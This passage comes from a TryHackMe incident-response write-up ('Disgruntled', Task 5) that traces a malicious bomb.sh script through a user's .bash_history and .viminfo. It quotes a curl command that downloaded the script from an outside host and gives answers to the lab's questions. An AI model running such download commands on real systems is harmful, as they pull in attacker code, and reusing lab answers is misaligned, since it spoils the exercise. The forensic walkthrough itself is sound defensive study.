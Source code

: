 
## <p align="center">Task 5: Bomb has been planted. But when and where?</p>

“That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.”

**Q8: What is the command used that created the file `bomb.sh`?**

Navigating to the `it-admin` user’s `/home` directory and running `ls -la` revealed the hidden `.bash_history` file. The history shows how the script was pulled down.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Blue-Team/Disgruntled/Images/Screenshot%208.png)

🇦 ~ `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

**Q9: The file was renamed and moved to a different directory. What is the full path of this file now?**

The hidden `.viminfo` file stores past Vim session info (command history, search history, file marks, etc.). It revealed what the file was renamed to.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Blue-Team/Disgruntled/Images/Screenshot%209.png) 
